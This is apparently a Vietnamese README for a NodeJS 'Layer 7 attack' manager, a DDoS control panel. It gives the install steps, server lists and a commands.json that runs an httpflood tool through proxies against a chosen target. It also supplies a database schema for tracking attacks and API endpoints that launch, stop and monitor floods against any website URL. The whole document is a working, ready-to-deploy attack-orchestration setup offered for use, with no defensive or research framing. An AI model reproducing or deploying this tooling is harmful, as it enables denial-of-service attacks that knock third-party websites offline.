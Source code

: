 <h2>Trình quản lý API NodeJS cho các cuộc tấn công Lớp 7</h2>

<h4>API này rất an toàn và nhanh chóng (mất 2 lần ping giữa API và phần phụ trợ, tức là ping là 60ms, sẽ chỉ mất 120ms để khởi động cuộc tấn công)</h4>

<h1>Cài đặt: trên centos</h1>

***cài đặt nodejs***
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash
source ~/.nvm/nvm.sh
nvm install 14.17.3
nvm use 14.17.3
npm i express mysql
```
***cài đặt cơ sở dữ liệu***
```
sudo yum install mariadb-server
sudo systemctl start mariadb
sudo systemctl enable mariadb
sudo systemctl status mariadb
sudo mysql_secure_installation
mysql -u root -p
```
<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "1": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 8888
    },
    "2": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 8888
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt"
}
```

<h3>Update settings.json</h3><br>

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", 
    "max_attacksn": 10,
    "api_port": 8888
}
```

<h3>Update client.js:</h3><br>

```js
const socket_port = 8888; // cổng API
const socket_token = "SECRET_TOKEN"; // mã thông báo bí mật của bạn để bảo vệ kết nối TCP
const allowed_ips = ['1.1.1.1']; // IP máy chủ API
```

<h3>Thiết lập cơ sở dữ liệu</h3><br>

```sql
CREATE DATABASE manager;

use manager;

CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

***sử lý lỗi từ chối kết nối***

1 Truy cập MariaDB: Đăng nhập vào máy chủ chứa cơ sở dữ liệu MariaDB bằng tài khoản có quyền quản trị. Bạn có thể sử dụng lệnh sau để đăng nhập vào MariaDB:
```mysql -u root -p```

2 Thiết lập quyền truy cập cho máy chủ của bạn: MariaDB sử dụng kiểm tra quyền truy cập dựa trên địa chỉ IP. Để cho phép máy chủ của bạn kết nối, bạn cần cấp quyền cho địa chỉ IP của máy chủ đó.

```GRANT ALL PRIVILEGES ON *.* TO 'tên_tài_khoản'@'địa_chỉ_IP_máy_chủ' IDENTIFIED BY 'mật_khẩu';```

Trong đó:

`tên_tài_khoản` là tên tài khoản truy cập MariaDB.

`địa_chỉ_IP_máy_chủ` là địa chỉ IP của máy chủ cần kết nối.

`mật_khẩu` là mật khẩu của tài khoản.

Lưu ý rằng bạn cần phải thay thế các giá trị này bằng thông tin của bạn.

3 Làm mới quyền truy cập: Sau khi bạn đã thay đổi quyền, hãy làm mới quyền để áp dụng thay đổi:
```FLUSH PRIVILEGES;```

4 thoát
```exit;```

### Sau đó, tải `client.js` lên máy chủ tấn công và tải `api.js` `server.json` `command.json` `settings.json` lên máy chủ API
```
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/api.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/commands.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/settings.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/servers.json
```
```
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/client.js
```

### khởi động
```
screen -S APIv3 -dm node api.js && screen -r APIv3
```
```
screen -S CLIENT -dm node client.js && screen -r CLIENT
```
### Proxy ngược

***Nên tạo proxy ngược bằng Nginx để sử dụng API của bạn:***

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:8888/api;
    }
}
```

Thay thế `'http://backend:3000/api'` bằng IP máy chủ API của bạn

### Sử dụng API

Gửi yêu cầu tới API bằng các trường bắt buộc

`http://api.yourdomain.com/api/attack?target=https://website.com&duration=120&method=HTTPGET&server=1`

Bạn có thể dừng các cuộc tấn công bằng cách gửi yêu cầu tới API bằng ID tấn công

`http://api.yourdomain.com/api/stop?attack_id=[id]`

Bạn cũng có thể xem tất cả các cuộc tấn công đang diễn ra và việc sử dụng máy chủ bằng cách gửi yêu cầu tới API

`http://api.yourdomain.com/api/status`

Bạn cũng có thể dừng tất cả các cuộc tấn công gửi yêu cầu tới API

`http://api.yourdomain.com/api/stop_all`

